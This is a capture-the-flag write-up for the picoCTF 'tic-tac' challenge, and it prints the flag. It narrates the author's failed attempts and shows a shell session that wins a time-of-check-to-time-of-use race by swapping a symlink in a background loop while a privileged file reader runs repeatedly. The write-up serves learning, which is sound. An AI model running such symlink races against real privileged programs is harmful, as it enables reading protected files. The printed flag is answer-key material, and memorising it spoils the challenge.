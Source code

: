 ## 1. tic-tac 

### **Flag-**       
picoCTF{ToctoU_!s_3a5y_0490d70a}

### **Thought Process-**        
> Here when I got connected there were 3 files(Flag,source file and executable binary file). With the help source file(src.cpp) it became clear that the binary file > was just checking the permissions and ownership of files and then performing the tasks as per instructions. My tires-
>
> 1. I tired `chmod` to change file permissions but I couldn't.
> 2. I also tried running `sudo` to read the flag but it didn't work.
> 3. I tried changing the `src.cpp` file to see if somehow this and binary file are connected and may affect it's functionality but it didn't go as thought.
> 4. Then I tried to copy flag file contents to another file then print the other file.
> 5. Then I remembered that I forgot to compile the `src.cpp` file before running so I had to again perform the required modifications in `src.cpp` and then I > compiled it but even after running it, it did not work so I understood this will not affect the output.
> 6. So now I read the challenge description again and tried to re-interpret it. It gave me the ida that maybe I can create a program which uses `root` to read the content of `flag.txt` but I was again uunable to do so.
> 7. Thereafter I opened the `src.cpp` file and started observing and searching for vulnerabilities in it as it was the souce code of the binary file. Then I came across `TOCTOU` and came to know that this should work as this was there in challenge description(the word which I was not able to understand back then). For this I tried several ways.
> 8. First of all I created a continuos link chain `flag.txt -> link1 -> link2 -> link3 -> link4 -> link5 -> link6` and tried `./txtreader link6` but his didn't work.
> 9. then I tried link the file and run `txtreader` a number of times in a loop like parallel execution `for i in {1..500}; do ln -sf flag.txt link6 & ./txtreader link6 & done`.
> 10. I also tried it with controlled timing `for i in {1..500}; do ln -sf flag.txt link6 sleep 0.001 ./txtreader link6 done`.
> 11. Sequential way - `for i in {1..500}; do ln -sf flag.txt link6 ./txtreader link6 done`
> 12. The the I remembered that in this way the link pointing to the file is not being able to change in the correct timing so the last try I had was to run a continuos linking in the background and I made this better by creating a loop which continuous changes the link(pointer) to a file written by me which has all the permissions and the flag file so it was now running continuosly in the background so now I ran a loop for `./txtreader link` for 500 times hoping there will be a case in which there is correct timing and ot worked I got the flag.

### **The successful attempt-**    
``` bash
ctf-player@pico-chall$ echo "WHY" > hello.txt
ctf-player@pico-chall$ ./txtreader hello.txt
WHY
ctf-player@pico-chall$ while true
> do
>     ln -sf flag.txt link
>     ln -sf hello.txt link
> done
^C
^C
ctf-player@pico-chall$
ctf-player@pico-chall$ nano try.sh
ctf-player@pico-chall$ chmod +x try.sh
ctf-player@pico-chall$ ./try.sh &
[1] 8168
ctf-player@pico-chall$ ./txtreader link
Error: you don't own this file
ctf-player@pico-chall$ ./txtreader link
WHY
ctf-player@pico-chall$ ./txtreader link
Error: you don't own this file
```